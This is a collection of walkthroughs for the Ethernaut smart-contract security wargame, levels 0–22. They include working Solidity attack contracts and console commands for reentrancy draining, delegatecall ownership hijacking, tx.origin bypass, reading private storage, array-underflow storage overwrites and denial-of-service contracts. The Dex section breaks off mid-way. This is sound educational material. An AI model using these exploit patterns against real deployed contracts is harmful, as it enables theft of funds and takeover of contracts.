# Ethernaut Level 0: Hello Ethernaut

## Commands Used

### 1. Called info() to get the initial clue
```js
await contract.info()
// Output: "You will find what you need in info1()."
```
This was the first hint given in the level.

---

### 2. Inspected the contract object
```js
await contract
```
To check what functions are available in the contract. I noticed a password() function.

---

### 3. Retrieved the password
```js
await contract.password()
//Output: "ethernaut0"
```

This is the password needed for authentication.

---

### 4. Submitted the password directly
```js
await contract.authenticate(await contract.password())
```

### 5. Clicked "Submit Instance"  

### Level Completed

.png)


# Ethernaut Level 1: Fallback

##  Strategy

The fallback function in this contract sets msg.sender as the new owner only if:
1. The caller sends ETH to the contract and
2. The caller has already contributed some ether via the contribute() function.

Also, the initial owner starts with `1000 ether` in contributions, so our total contribution must exceed that to trigger ownership update via contribute(). 

---

## Commands Used

### 1. Contributed a small amount to initialize `contributions[msg.sender] > 0`
```js
await contract.contribute({value: toWei("0.0005")})
```
Enables the fallback function condition `contributions[msg.sender] > 0`.

---

### 2. Sent ETH directly to the contract to trigger the fallback function
```js
await web3.eth.sendTransaction({from: player, to: contract.address, value: web3.utils.toWei("0.0001", "ether")})
```
This calls the `receive()` function, which sets me as the new `owner` since I already had a contribution.

---

### 3. Called `withdraw()` to drain the balance
```js
await contract.withdraw()
```
Now that I’m the owner, I can withdraw the contract’s balance and fulfill the final objective.

---

### Level completed




# Ethernaut Level 2: Fallout

## Strategy

- **Vulnerability**: The constructor in this contract is incorrectly named `Fal1out`. In Solidity versions prior to 0.7.0, the constructor should match the contract's name.
- **Exploit**: Since `Fal1out()` is a public function , anyone can call it. By calling `Fal1out()`, I was able to set myself as the contract's owner.

---

## Commands Used

### 1. Called the misnamed constructor to claim ownership
```js
await contract.Fal1out()
```
This allowed me to set myself as the owner of the contract, as it was not treated as a constructor but a regular public function.

---

### 2. Verified ownership
```js
await contract.owner()
```
I got my address as the output, confirming that I am now the owner of the contract

---

### Level completed



# Ethernaut Level 3: Coin Flip

## Strategy

In this challenge, the `CoinFlip` contract simulates a coin flip by using the previous block's hash, which is not truly random. This hash can be predicted using the `blockhash()` function, making it possible to determine the outcome of the coin flip in advance.

---

## Commands Used

### 1. Get the contract instance address
```js
await contract.address
```
This command was used to get the address of the deployed `CoinFlip` contract

---

### 2. Query the `consecutiveWins` after each successful guess
```js
await contract.consecutiveWins()
```
I used this command 10 times to check the `consecutiveWins` value after each flip. Each time the guess was correct, the value increased, and I confirmed that the counter reached 10.

---

### Level completed

.png)


# Ethernaut Level 4: Telephone

## Strategy

In this challenge, the `Telephone` contract has a function `changeOwner()` that allows the owner to be changed under certain conditions. The key condition here is that the contract checks whether the transaction origin (`tx.origin`) is different from the caller's address (`msg.sender`). This check is the key vulnerability, as it allows an attacker to use an intermediate contract to manipulate the `tx.origin` value and bypass the owner check.

### Steps:
1. **Understanding the Vulnerability**: The `tx.origin` is the address that initiated the transaction, and it will be different from the contract address when the contract is called by another contract. This condition allows the ownership to be transferred by a contract calling the `changeOwner()` function.
2. **Exploiting the Vulnerability**: I wrote an intermediate contract that calls the `changeOwner()` function of the target `Telephone` contract, passing the contract’s address (`msg.sender`) to satisfy the condition and change the owner of the `Telephone` contract.

---

### Exploit contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract TelephoneH {
    function attack(address _target) public {
        Telephone(_target).changeOwner(msg.sender);
    }
}
```

This contract acts as an intermediary. It calls the `changeOwner()` function of the target `Telephone` contract, passing the caller's address (`msg.sender`) as the new owner. Since the check `tx.origin != msg.sender` is bypassed, the ownership is transferred successfully.

---

### Explanation of the Exploit:
- The `Telephone` contract uses `tx.origin` to restrict who can change the owner. `tx.origin` refers to the original address that initiated the transaction, and in this case, it checks if the transaction origin is not the same as the caller.
- By using an intermediate contract, I bypassed this check because `msg.sender` (the contract address) is different from `tx.origin` (my address). The intermediate contract successfully called the `changeOwner()` function, transferring the ownership of the `Telephone` contract to my address.

### 3. Executing in Remix IDE
After deploying both the `Telephone` contract and the `TelephoneH` on Remix IDE, I called the `changeOwner()` function on the intermediate contract to transfer ownership of the `Telephone` contract to my address.

---

### 4. **Query the ownership to confirm the change:**

```js
await contract.owner()
```

### Level completed



# Ethernaut Level 5: Token

## Strategy

- **Vulnerability**: The `transfer` function in the contract does not safely check for underflows. It subtracts the transfer amount from the sender’s balance before performing the check, and since the Solidity version is ^0.6.0 , this leads to an integer underflow vulnerability.
- **Exploit**: By trying to transfer more tokens than I actually had (21 tokens when I only had 20), the subtraction underflows and sets my balance to a very large number, allowing me to pass the level.

---

## Commands Used

### 1. Get the contract instance
```js
let instance = await contract;
```
To interact with the deployed Token contract instance.

---

### 2. Called the `transfer` function with more than 20 tokens
```js
await instance.transfer("0x0000000000000000000000000000000000000001", 21);
```
This triggers the underflow vulnerability and results in a huge balance increase for the player.

---

### 3. Checked the player’s balance
```js
(await instance.balanceOf(player)).toString();
```
To verify that my token balance is now much larger than the original 20 tokens.

---

### Level completed



# Ethernaut Level 6: Delegation

## Strategy

- **Vulnerability**: The `Delegation` contract has a `fallback()` function that uses `delegatecall` to forward all unknown calls to the `Delegate` contract. Since `delegatecall` runs in the context of the calling contract’s storage, executing the `pwn()` function from `Delegate` via `delegatecall` will modify `Delegation`'s `owner` instead.
- **Exploit**: By sending a transaction directly to `Delegation` with the function selector for `pwn()`, we can trick the fallback into calling `Delegate.pwn()` and thus take over ownership.

---

## Commands Used

### 1. Get the instance address
```js
contract.address
```
To confirm the deployed contract's address.

---

### 2. Set the instance variable to contract address
```js
let instance = "0xinstance_address";
```
To specify the instance we are attacking.

---

### 3. Get the player’s account
```js
let player = (await web3.eth.getAccounts())[0];
```
To get the sender address(player address).

---

### 4. Send the function selector of `pwn()` to the contract
```js
await web3.eth.sendTransaction({
  from: player,
  to: instance,
  data: "0xdd365b8b"
});
```
`"0xdd365b8b"` is the function selector for `pwn()`. Sending this directly invokes the fallback in `Delegation`, which performs a delegatecall to `Delegate.pwn()`—setting `msg.sender` (player) as the new `owner`.

---

### 5. Check if ownership has changed
```js
await contract.owner()
```
To verify that the `owner` is now the player.

---

### Level completed



# Ethernaut Level 7: Force

## Strategy

- **Vulnerability**: The `Force` contract does not implement either `receive()` or `fallback()` functions, which means it rejects any direct transfer of ETH using `send()`, `transfer()`, or even `call{value: ...}`.
- **Exploit**: We bypass this restriction by using the `selfdestruct()` function in another contract. When a contract self-destructs, it forcibly sends its balance to the specified address, regardless of whether that address can normally receive ETH. This allows us to inject ETH into `Force`.

---

## Commands Used

### 1. Create an attack contract with `selfdestruct`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
    constructor() payable {}

    function destroy(address payable _target) public {
        selfdestruct(_target);
    }
}
```
The `destroy()` function will forcefully send ETH to the `Force` contract's address.

---

### 2. Deployed `ForceAttack` with 1 Wei
To give the contract some balance that it can push to the target via `selfdestruct`.

---

### 3. Call the `destroy()` function with the Force instance address
```js
await contract.destroy("0xD8b97663115cc3889479Eb5955E28F68025B2AD9")
```
To execute `selfdestruct` and force ETH into the `Force` contract.

---

### 4. Confirm the contract balance is now greater than 0
```js
await web3.eth.getBalance("0xD8b97663115cc3889479Eb5955E28F68025B2AD9")
```
This confirms the ETH was successfully transferred and the level is complete.

---

### Level completed


# Ethernaut Level 8: Vault

## Strategy

- **Vulnerability**: Although the password is marked as `private`, Solidity stores all contract storage on-chain and it can be read using `web3.eth.getStorageAt`. The `password` is located at storage slot 1.
- **Exploit**: We read the private storage directly from the contract, extract the password, and use it to call the `unlock()` function to set `locked = false`.

---

## Commands Used

### 1. Get the password from storage slot 1
```js
await web3.eth.getStorageAt(instance, 1)
```
The password is stored at slot 1. This reveals the raw `bytes32` value.

---

### 2. Decode the password to readable ASCII
```js
web3.utils.hexToAscii("0x...")  // Use the result from the previous step
//Output: `"A very strong secret password : )"`
```

---

### 3. Convert the password back to bytes32 format
```js
let password = web3.utils.asciiToHex("A very strong secret password : )");
```
The contract's `unlock()` function expects a `bytes32` argument, so the string needs to be converted back.

---

### 4. Unlock the vault
```js
await contract.unlock(password);
```

---

### 5. Check if the vault is unlocked
```js
await contract.locked();
//Output: `false`
```

---

### Level completed



# Ethernaut Level 9: King

## Strategy

- **Vulnerability**: The `King` contract relied on sending Ether to the previous king using `.transfer()`. If the previous king was a smart contract that reverted in its `receive()` function, the transaction would fail, and the new king couldn’t be replaced — effectively locking the contract.
- **Exploit**: I deployed a malicious contract (`KingAttack`) that:
  1. Sent more Ether than the current `prize` to claim kingship.
  2. Reverted any future Ether transfers via its `receive()` function.
- **Outcome**: When Ethernaut’s level logic attempted to reclaim kingship, it failed due to the revert, and I remained the king — completing the level.

---

## Commands Used

### 1. Checked the current balance of the King contract
```js
(await web3.eth.getBalance("0x72DF418D0D0F0A30625aB7F6cCE70eA7218b2168")).toString()
//Output: "1000000000000000"
```
I used this command to find the current `prize` amount, so I could send a higher amount and become the new king.

---

### 2. Deployed the `KingAttack` contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttack {
    address public target;

    constructor(address _target) payable {
        target = _target;
        (bool success, ) = target.call{value: msg.value}("");
        require(success, "Failed to become king");
    }

    receive() external payable {
        revert("Nope!");
    }
}
```

**Deployment Parameters**:
- Target address: the `King` contract instance address.
- Value sent: `1100000000000000 wei` (more than the current prize).

**Reason**:  
I used the constructor to immediately send Ether to the King contract and claim the throne. The `receive()` function reverted any further Ether transfers, preventing anyone — including the level itself — from dethroning my contract.

---

### 3. Verified kingship
```js
await contract._king();
//Output: Address of the `KingAttack` contract
```
I used this to confirm that my `KingAttack` contract had become the new king.

---

### Level Completed


# Ethernaut Level 10: Re-entrancy

## Strategy

- **Vulnerability**: The `Reentrance` contract allowed a re-entrant call to `withdraw()` *before* updating the user's balance, due to calling `msg.sender.call.value()` first. This made it vulnerable to **reentrancy attacks**.
- **Exploit**: I wrote and deployed a malicious contract (`ReentranceAttack`) that:
  1. Donated a small amount of Ether to itself in the target contract.
  2. Called `withdraw()` which triggered the fallback `receive()` function.
  3. The `receive()` function recursively called `withdraw()` again, draining the contract before the balance was updated.
- **Outcome**: I successfully drained all funds from the target contract and completed the level.

---

### Prepared the `ReentranceAttack` Contract

Created a new file called `ReentranceAttack.sol` in Remix and pasted the following code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract ReentranceAttack {
    address payable public target;
    address public owner;

    constructor(address _targetAddress) public {
        target = payable(_targetAddress);
        owner = msg.sender;
    }

    function attack() external payable {
        require(msg.value > 0, "Send some ETH");
        IReentrance(target).donate{value: msg.value}(address(this));
        IReentrance(target).withdraw(msg.value);
    }

    receive() external payable {
        uint256 targetBalance = address(target).balance;
        if (targetBalance > 0) {
            uint256 withdrawAmount = targetBalance > 0.001 ether ? 0.001 ether : targetBalance;
            IReentrance(target).withdraw(withdrawAmount);
        }
    }

    function withdrawFunds() public {
        require(msg.sender == owner, "Not owner");
        msg.sender.transfer(address(this).balance);
    }
}
```

---

### Compiled the Contract

- I used Solidity compiler version `0.6.12` to match the version used by the level.
- Clicked **Compile ReentranceAttack.sol**.

---

### Deployed the Attack Contract

- Switched to **Injected Web3** in Remix (connected to Sepolia testnet via MetaMask).
- Provided the **instance address of the Reentrance contract** as the constructor argument.
- Deployed the contract with `0.001 ETH`.

---

### Executed the Attack

- Called the `attack()` function with `0.001 ETH`.
- The attack recursively called `withdraw()` through the fallback `receive()` function, draining the contract balance.

To monitor the balance of the target contract, ran:
```js
(await web3.eth.getBalance(instance)).toString()
```
Once the balance reached `0`, confirmed that the attack was successful.

---

### Submitted the Level

- After confirming the contract’s balance was `0`, I submitted the level on Ethernaut — and it was marked complete.

---

### Level Completed

.png)


# Ethernaut Level 11: Elevator

## Strategy

- **Vulnerability**: The `Elevator` contract relies on an external `Building` contract's `isLastFloor()` function, calling it **twice** — once in an `if` condition and again to set `top`. Since both calls are made separately, the return values don’t have to be the same, creating a logic loophole.
- **Exploit**: Created a contract (`ElevatorHack`) that:
  1. Implements the `Building` interface.
  2. Returns `false` on the first call to `isLastFloor()`, and `true` on the second call — using a toggle variable.
- **Outcome**: This tricks the `Elevator` into thinking it's not on the last floor, then immediately believing it is — allowing me to set `top = true` and complete the level.

```solidity
// SPDX-License-Identifier: MIT 
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint256 _floor) external;
}

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract ElevatorHack is Building {
    bool public toggle;
    Elevator public target;

    constructor(address _target) {
        target = Elevator(_target);
        toggle = true;
    }

    function isLastFloor(uint256) external override returns (bool) {
        toggle = !toggle; // returns false first, then true
        return toggle;
    }

    function attack() public {
        target.goTo(1);
    }
}
```

---

### Compiled the Contract

- I used the Solidity compiler version `^0.8.0` to match the challenge.
- Clicked **Compile ElevatorHack.sol**.

---

### Deployed the Hack Contract

- Switched Remix to **Injected Provider** (MetaMask on Sepolia).
- Passed the instance address of the vulnerable `Elevator` contract into the constructor.
- Deployed `ElevatorHack`.

---

### Triggered the Exploit

- Clicked the `attack()` function in the deployed `ElevatorHack` contract.
- This called `goTo(1)` and toggled the return values of `isLastFloor()` to fake the logic and trick the contract.

---

### Verified the Result

In the browser console, I checked:
```js
await contract.top()
//Output: `true`
```
This confirmed that the Elevator believed it had reached the top.

---

### Level Completed


# Ethernaut Level 13: Privacy

## Strategy

- **Vulnerability**: Even though the `data` array is marked `private`, Solidity's `private` keyword only restricts access from other contracts—not from external users. Storage slots on the Ethereum blockchain are publicly accessible.
- **Exploit**: The third element of the private `bytes32[3] data` array (i.e., `data[2]`) is stored in storage slot `5`. By reading this slot and slicing the first 16 bytes (`bytes16`), I was able to extract the key used in the `unlock()` function.

---

## Commands Used

### Read the value in storage slot 5
```js
await web3.eth.getStorageAt(contract.address, 5)
```
`data[2]` is stored in slot 5. I used this to retrieve the 32-byte value that contains the unlock key.

---

### Extract the unlock key from the retrieved bytes32
```js
let full = '0xe29b4ed9fbfba303b84c498c7a45d399f864637ae28408665a60ce4592daf628';
let key = '0x' + full.slice(2, 34);
```
Took the first 16 bytes from the `bytes32` value (i.e., 32 hex characters) to form the `bytes16` key required by the `unlock()` function.

---

### Unlock the contract
```js
await contract.unlock(key);
```
This call triggered the `unlock()` function and passed the correct key, changing `locked` to `false`.

---

### 4. Confirm that the contract was unlocked
```js
await contract.locked();
//Output: `false`
```
This confirmed that the level was successfully completed.

---

### Level Completed



# Ethernaut Level 14: Gatekeeper One

## Strategy

- **Vulnerability**: The contract has three tricky gates:
  1. **Gate One** requires the `msg.sender` to be different from `tx.origin`, meaning we must call it through a contract.
  2. **Gate Two** requires `gasleft() % 8191 == 0`. This needs brute-forcing different gas values.
  3. **Gate Three** involves carefully crafting a `bytes8` key that matches three constraints involving the caller's address and bit-level properties.

- **Exploit**: I created an attacking contract to:
  - Satisfy Gate One by calling the function through a contract.
  - Brute-force the gas for Gate Two.
  - Generate a key that satisfies all parts of Gate Three.

---

## Commands Used

### 1. Deploy the attack contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperOneHack {
    function attack(address target) public {
        bytes8 key = bytes8(
            uint64(uint16(uint160(tx.origin))) | (uint64(1) << 32)
        );

        for (uint256 i = 0; i < 300; i++) {
            (bool success, ) = target.call{gas: 8191 * 3 + i}(
                abi.encodeWithSignature("enter(bytes8)", key)
            );
            if (success) {
                break;
            }
        }
    }
}
```
This attack contract automates the solution to all three gates by constructing a valid key and looping through gas values.

---

### 2. Call the attack function
```js
await attacker.attack(contract.address)
```
This executes the attack on the `GatekeeperOne` contract instance, attempting to register my address as the `entrant`.

---

### 3. Confirm level completion
```js
await contract.entrant()
```
**Output**: My wallet address (tx.origin)

If the value returned is the wallet address, then we've have successfully passed all gates and completed the level.

---

## Level Completed



# Ethernaut Level 15: Gatekeeper Two

## Strategy

- **Vulnerability**:
  1. **Gate One**: Requires the call to originate from a contract (`msg.sender != tx.origin`).
  2. **Gate Two**: Requires the caller contract’s code size to be 0, which only happens **during its constructor**.
  3. **Gate Three**: A bitwise XOR trick – the key must satisfy:
     ```solidity
     uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ _gateKey == 0xFFFFFFFFFFFFFFFF
     ```
     So, `_gateKey = keccak256(msg.sender) ^ max(uint64)`.

- **Exploit**: I deployed a contract that:
  - Calculates the correct `_gateKey` using its own address and XOR,
  - Calls `enter()` from the constructor to ensure `extcodesize == 0`,
  - Uses itself (a contract) to bypass `msg.sender != tx.origin`.

---

## Commands Used

### 1. Attack Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttack {
    constructor(address target) {
        IGatekeeperTwo gate = IGatekeeperTwo(target);

        bytes8 key = bytes8(
            uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max
        );

        gate.enter(key); // Called from constructor
    }
}
```
This contract satisfies all three gate conditions when deployed.

---

### 2. Check if level is solved
```js
await contract.entrant()
```
If it returns my wallet address, I successfully passed all gates and completed the level.

---

## Level Completed



# Ethernaut Level 6: NaughtCoin

## Strategy

- **Vulnerability**: The `transfer()` function is restricted for the original player address by a 10-year time lock through the `lockTokens` modifier.
- **Exploit**: The contract only overrides `transfer()` — it does **not** restrict `transferFrom()`. According to the ERC-20 standard, if a user has approved another address (or themselves), that address can call `transferFrom()` without being subject to the `transfer()` restrictions.
- **Goal**: Use `approve()` and `transferFrom()` to bypass the lock and move all tokens out of the player’s account, reducing the balance to 0.

---

## Commands Used

### 1. Approve self to spend the full balance
```js
await contract.approve(player, await contract.balanceOf(player))
```
Grants the player permission to transfer their own tokens using `transferFrom()`.

---

### 2. Check allowance to confirm
```js
(await contract.allowance(player, player)).toString()
```
Verifies that the approval was successful and matches the token balance.

---

### 3. Use `transferFrom()` to bypass lock and move tokens
```js
await contract.transferFrom(player, "0xYourAddress", await contract.balanceOf(player))
```
This call is not gated by `lockTokens`, so it successfully transfers the full balance.

---

### 4. Confirm balance is 0
```js
(await contract.balanceOf(player)).toString()
```
If the balance is `0`, the level is successfully completed.

---

## Level Completed



# Ethernaut Level 16: Preservation

## Strategy

- **Vulnerability**: The `Preservation` contract uses `delegatecall` to external libraries. Because `delegatecall` preserves the calling contract's storage, it's possible to overwrite the `owner` variable if the malicious contract mimics the original storage layout.
- **Exploit**: 
  - Use the `setFirstTime()` function to overwrite `timeZone1Library` with the address of a malicious contract.
  - Then use `setFirstTime()` again, which triggers a `delegatecall` to our malicious `setTime()` and overwrites the `owner`.

---

## Remix Deployment Steps

### 1. Deploy the `Hack` contract in Remix

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPreservation {
    function owner() external view returns (address);
    function setFirstTime(uint256) external;
}

contract Hack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function attack(IPreservation target) external {
        // Step 1: Overwrite timeZone1Library with this contract
        target.setFirstTime(uint256(uint160(address(this))));
        // Step 2: Call again to overwrite owner
        target.setFirstTime(uint256(uint160(msg.sender)));
    }

    function setTime(uint256 _owner) public {
        owner = address(uint160(_owner));
    }
}
```

This contract mimics the storage layout of `Preservation` and uses `delegatecall` to hijack ownership.

---

### 2. Call `attack()` with the target `Preservation` contract address

```solidity
hack.attack("0xPreservationContractAddress")
```

Executes the two-step overwrite of `timeZone1Library` and then `owner`.

---

### 3. Verify Ownership Change

```js
await contract.owner()
```

**Expected Output**:Your wallet address, proving the hack was successful.

---

## Level Completed


# Ethernaut Level 17: Recovery

## Strategy

- **Vulnerability**: The `Recovery` contract deploys `SimpleToken` contracts using the `new` keyword. These contracts store Ether and have a public `destroy()` method that calls `selfdestruct()`, allowing anyone to remove the Ether.
- **Exploit**: 
  - Since the token contract was created as the first child of the `Recovery` contract, we can calculate its address deterministically using `CREATE` address derivation.
  - Once we recover the address, we call its `destroy()` method and pass our own wallet to drain the Ether.

---

## Remix Deployment Steps

### 1. Deploy the helper `Dev` contract in Remix

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Dev {
    function recover(address sender) external pure returns (address) {
        // Derive contract address using keccak256 of the RLP encoding
        return address(uint160(uint256(keccak256(abi.encodePacked(
            bytes1(0xd6),
            bytes1(0x94),
            sender,
            bytes1(0x01) // nonce = 1 for the first contract created
        )))));
    }
}
```

This contract calculates the lost token contract address using Ethereum's `CREATE` address derivation method.

---

### 2. Call `recover()` with the address of the `Recovery` contract

```solidity
dev.recover("0xRecoveryContractAddress")
```

Get the address of the `SimpleToken` that was deployed via the `Recovery` contract.

---

### 3. Interact with the recovered token address in Remix

Load the `SimpleToken` contract using the recovered address and call:

```solidity
destroy(payable("yourWalletAddress"))
```

Triggers `selfdestruct()` to send the 0.001 ETH to your wallet.

---

### Success Check

After calling `destroy()`, check your wallet balance or ensure the contract no longer holds ETH.

---

## Level Completed


# Ethernaut Level 18: MagicNumber

## Strategy

- **Vulnerability**: The `MagicNum` contract allows setting an external contract (`solver`) that returns a hardcoded `uint256` value. The catch is the Solver contract must be at most 10 EVM opcodes in size.
- **Exploit**: 
  - Write raw bytecode directly instead of using Solidity (which produces too much overhead).
  - The runtime code simply returns the value `42` (0x2a).
  - Construct init code manually to deploy the runtime code using a contract creation transaction.

---

## Opcode Breakdown

### Runtime Bytecode (10 bytes)
This is the actual logic that gets executed when the `solver` contract is called.

| Opcode | Meaning                        |
|--------|--------------------------------|
| 602a   | PUSH1 0x2a (value 42)          |
| 6050   | PUSH1 0x50 (mem pos 0x50)      |
| 52     | MSTORE                         |
| 6020   | PUSH1 0x20 (length = 32 bytes) |
| 6050   | PUSH1 0x50 (same mem pos)      |
| f3     | RETURN                         |

Final Runtime: `602a60505260206050f3` (10 bytes)

---

### Init Code (Setup code)
This is the code run during deployment to install the runtime code above in the new contract.

| Opcode | Meaning                                  |
|--------|------------------------------------------|
| 600a   | PUSH1 0x0a (size of runtime)             |
| 600c   | PUSH1 0x0c (offset to runtime code)      |
| 6000   | PUSH1 0x00 (dest in memory)              |
| 39     | CODECOPY                                 |
| 600a   | PUSH1 0x0a (size of runtime)             |
| 6000   | PUSH1 0x00 (mem pos of runtime code)     |
| f3     | RETURN                                   |

Final Init Code: `600a600c600039600a6000f3` (12 bytes)

---

### Final Bytecode (22 bytes total)

```
600a600c600039600a6000f3602a60505260206050f3
```

### 1. Deploy Contract from Raw Bytecode

Open the browser console on the Ethernaut level page and paste:

```js
// This is the raw bytecode of a minimal contract that returns 42 (0x2a) when called.
const bytecode = "0x600a600c600039600a6000f3602a60505260206050f3";

// Sends a transaction to deploy the contract with that bytecode.
// `player` is your Ethereum address. The contract is deployed by sending this bytecode with no to-address.
const tx = await web3.eth.sendTransaction({ from: player, data: bytecode });

// The deployed contract's address is stored here.
// We'll use it to register this contract as the solver.
const solverAddr = tx.contractAddress;

// Sets the deployed contract as the solver in the MagicNum contract.
await contract.setSolver(solverAddr);
```

The `MagicNum` level requires setting a contract that returns the value `42` using fewer than 10 EVM opcodes. This bytecode accomplishes that efficiently without using Solidity.

---

### 2. Set the Solver Address in MagicNum

```js
await contract.setSolver(solverAddr);
```
- This line explicitly sets the address of the deployed contract (which returns 42) as the `solver` expected by `MagicNum`.

---

### 3. Submitted the instance

## Level Completed



# Ethernaut Level 19: AlienCodex

## Strategy

- **Objective**: Claim ownership of the `AlienCodex` contract.
- **Vulnerability**: The `retract()` function causes an underflow in the dynamic array `codex`, extending its length to the entire 2²⁵⁶ storage space of the contract. This lets me overwrite any storage slot—including slot `0`, which holds the `owner` address.
- **Approach**:
  1. Trigger the `contacted` modifier using `makeContact()`.
  2. Exploit the underflow bug via `retract()`.
  3. Calculate the array index `i` that maps to slot `0`.
  4. Use `revise(i, content)` to overwrite the `owner` variable with my own address.

---

## Understanding the Storage Layout

| Slot         | Content                              |
|--------------|--------------------------------------|
| 0            | `owner` (20 bytes) + `contact` (1 byte) |
| 1            | `codex.length`                       |
| keccak256(1) | Start of `codex` array               |

- The dynamic array `codex` does not start at slot 1—it starts at `keccak256(1)`.
- After causing an underflow in `codex.length`, I was able to write to any slot by finding an index `i` such that:  
  `keccak256(1) + i ≡ 0 mod 2²⁵⁶`  
  ⟶ `i = 2²⁵⁶ - keccak256(1)`

---

### 1. I Enabled the Contacted Modifier

```js
await contract.make_contact();
```

This set `contact = true`, so I could use `retract()` and `revise()`.

---

### 2. Caused an Array Underflow

```js
await contract.retract();
```

This changed `codex.length` from 0 to `2^256 - 1`, making the array span all of contract storage.

---

### 3. Calculated the Slot Offset

```js
const p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]));
// Output: '0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6'

const i = BigInt(2n ** 256n) - BigInt(p);
// Output: 35707666377435648211887908874984608119992236509074197713628505308453184860938n
```

This index maps directly to storage slot `0`.

---

### 4. Prepared the Payload to Overwrite Owner

```js
const content = '0x' + '0'.repeat(24) + player.slice(2);
// Output: '0x000000000000000000000000<player_address>'
```

Padded my address with 12 bytes of `0x00` to form a 32-byte `bytes32` value.

---

### 5. Overwrote the Owner Variable

```js
await contract.revise(i, content);
```

This wrote the padded player address into slot `0`, overwriting the contract's `owner`.

---

### Level Completed

```js
await contract.owner() === player; // true
```

Verified ownership and submitted the instance.




# Ethernaut Level 20: Denial

## Strategy

- **Vulnerability**: The `Denial` contract sends ETH to `partner` using a low-level `call` without a gas limit or checking for success.
- **Exploit**:
  - Created a contract (`GasBurner`) with a `receive()` function that runs an infinite loop until all gas is consumed.
  - Set this malicious contract as the `partner`.
  - Any future `withdraw()` calls by the owner would now consume all gas before reaching `owner.transfer(...)`, causing the transaction to fail under the 1M gas cap.
  - This denial of service meets the level requirement, completing it without calling `withdraw()` myself.

---

## Vulnerability Summary

```solidity
partner.call{value: amountToSend}(""); // No gas limit specified
```

- Sends all remaining gas to the partner.
- If the partner burns enough gas, the remaining operations in `withdraw()` (like `transfer()`) can’t execute.
- Effectively blocks the owner from withdrawing if `gasUsed >= 1M`.

---

## Exploit Steps

### 1. Deployed the GasBurner Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GasBurner {
    uint256 n;

    function burn() internal {
        while (gasleft() > 0) {
            n += 1;
        }
    }

    receive() external payable {
        burn();
    }
}
```

- The `receive()` function runs a loop until `gasleft()` is zero, consuming all gas sent with the call.

---

### 2. Set `GasBurner` as the Withdrawal Partner

```js
await contract.setWithdrawPartner("<gas-burner-address>");
```

- Now, any call to `withdraw()` will invoke `GasBurner.receive()`, consuming all gas and preventing `owner.transfer(...)`.

---

### Level Completed

**did not call** `withdraw()` myself — just setting the malicious partner was enough.
The level checks if the owner is blocked from withdrawing under a 1M gas cap.
Submitted the instance, and the level was marked complete.




# Ethernaut Level 21: Shop

## Strategy

- **Vulnerability**: The `Shop` contract calls the `price()` function of the `Buyer` contract **twice**, once for validation and once for assignment, assuming consistent return values from a `view` function.
- **Exploit**:
  - I deployed a custom `Buyer` contract that implements the `price()` function to return different values depending on the `Shop` contract’s `isSold` state.
  - On the first call (inside the `if` condition), `price()` returned the full asking price (≥ 100).
  - On the second call (after `isSold` is set to true), `price()` returned `0`, effectively buying the item for free.

---

## Understanding the Flow

```solidity
if (_buyer.price() >= price && !isSold) {
    isSold = true;
    price = _buyer.price();
}
```

- The `price()` function is called **twice**:
  1. For checking the condition.
  2. For assigning the new value to `Shop.price`.
- Since `price()` is `view`, we cannot track call counts using storage, but we **can check `Shop.isSold()`** to infer which call we're in.

---

## Exploit Steps

### 1. Deployed a Custom `Buyer` Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
    function price() external view returns (uint);
}

contract Buyer {
    function price() external view returns (uint) {
        bool isSold = IShop(msg.sender).isSold();
        uint askedPrice = IShop(msg.sender).price();

        if (!isSold) {
            return askedPrice; // return 100 during the first call
        }

        return 0; // return 0 during the second call
    }

    function buyFromShop(address _shopAddr) public {
        IShop(_shopAddr).buy();
    }
}
```

---

### 2. Initiated the Purchase

```js
await buyerContract.buyFromShop("<shop-instance-address>");
```

- This triggered the two calls to `price()`.
- My contract returned 100 for the first check, and 0 for the assignment after `isSold` was true.

---

### 3. Verified the Exploit

```js
await contract.price().then(v => v.toString()); // Output: '0'
await contract.isSold(); // Output: true
```

- Item was marked as sold.
- Final price was set to `0`.

---

### Level Completed

- Successfully bought the item for **0 wei**, bypassing the original 100 wei price.
- Submitted the instance and completed the level.




# Ethernaut Level 22: Dex

### Strategy
The Dex contract determines token swap prices based on a formula involving token reserves. However, due to **Solidity's integer division**, each swap introduces a **small imbalance** favoring the player. By repeatedly swapping tokens back and forth, we can exploit this **price manipulation vulnerability** to slowly increase our token balance relative to the Dex’s and eventually **drain all of one token**.

The key vulnerability lies in:
```solidity
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
Due to integer truncation, the swap price always rounds down—causing imbalance accumulation.

---

### Exploit Steps

1. **Start state**  
   - Player: 10 token1, 10 token2  
   - Dex: 100 token1, 100 token2  

2. **Approve Dex to spend our tokens:**
```js
await contract.approve(contract.address, 500)
```

3. **Get token addresses:**
```js
let t1 = await contract.token1();
let t2 = await contract.token2();
```

4. **Execute swaps iteratively to drain token1:**
```js
await contract.swap(t1, t2, 10)   // player: 0 t1, 20 t2
